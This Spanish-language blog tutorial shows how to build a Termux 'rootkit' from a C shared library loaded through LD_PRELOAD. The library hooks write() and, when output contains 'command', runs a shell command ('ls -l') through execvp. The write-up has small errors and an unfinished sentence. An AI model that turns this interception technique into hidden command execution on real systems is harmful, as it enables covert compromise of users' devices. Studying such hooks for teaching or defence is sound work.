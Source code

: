 # Mini tutorial de idea para crear un _rootkit_ para termux  

La idea principal es crear una biblioteca compartida en __C__ para suplantar la funcion  __write__ del
sistema. Utilizando  `LD_PRELOAD` que contiene una lista de objetos compartidos `ELF` especificados por el usuario.

Permite a los usuarios cargar estos objetos compartidos en el espacio de direcciones de un proceso antes que cualquier otra biblioteca compartida y antes de la ejecución del programa en sí.

### Sinopsis

```bash
export LD_PRELOAD=/path/to/candy.so:$LD_PRELOAD
```

###  Sinopsis de write

```cpp
#include <unistd.h>

ssize_t write(int fd, const void *buf, size_t count); 
```

# Descripcion

Escribe hasta __count__ bytes desde el `buffet` almacenando `buf` en el archivo al que hace referencia 
el descriptor de archivo `fd`. 

También utilizaremos la función `dlsym()` para realizar una búsqueda de símbolo. El cual sería la función __write__ en la biblioteca compartida especificada por `RTLD_NEXT` el cual indica que se debe buscar en la siguiente biblioteca compartida la lista de carga.

### Puntero a Función

Todas las funciones de _C_ están en punteros de actualidad a un punto en la memoria del programa donde existe algún código. El uso principal de un puntero de función es proporcionar una "devolución de llamada" a otras funciones (o para simular clases y objetos).

La sintaxis de una función es:

```
returnType (* nombre) (parámetros)
```

# Codigo

```cpp  
// Autor  : @demon_rip
// Nombre : candy

#include <dlfcn.h>
#include <stdio.h>
#include <unistd.h>

ssize_t write(int fildes, const void *buf, size_t nbytes) {
  // Puntera a  la  funcion   _write_
  ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);
  ssize_t result;
  //  Optenemos la direcion de  la  funcion  _write_ origina 
  new_write = (ssize_t(*)(int, const void *, size_t))dlsym(RTLD_NEXT, "write");

  // Buscar la palabra "command" en el buffer
  if (strstr((const char*)buf, "command") != NULL) { 
    // result = nbytes;
    char *args[] = {"/bin/bash", "-c", "ls -l", NULL};
    execvp(args[0],args);
  } else {
    result = new_write(fildes, buf, nbytes);
  }
  return result;
}
```

> Nota:  No se puede buscar en la condicion un comando . 

Este programa reacionara al intentar ejecutar un comando que no exista . Cualquir.


### Compilación 

```sh
gcc -ldl candy.c -fPIC -shared -D_GNU_SOURCE -o candy.so 
```

`-ldl` : Esto enlaza la biblioteca dinámica (`libdl`). La biblioteca `libdl` proporciona funciones para cargar dinámicamente bibliotecas compartidas en tiempo de ejecución.

`-fPIC`: Esta opción genera código independiente de la posición (Position Independent Code). Es necesario para crear bibliotecas compartidas para que el código generado pueda ser utilizado en cualquier dirección de memoria.

`-shared`: Esta opción indica que se debe crear una biblioteca compartida en lugar de un ejecutable. Las bibliotecas compartidas son archivos que pueden ser cargados en tiempo de ejecución por otros programas.

`-D_GNU_SOURCE`: Define la macro _GNU_SOURCE_. Esta macro habilita características y extensiones específicas de GNU en las bibliotecas estándar de C. Es útil para utilizar funciones y características adicionales que no están disponibles en el estándar ANSI C.


# Créditos 

A `@ivam3` por el cual obtuve una face beta de este código.



{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %} 



 
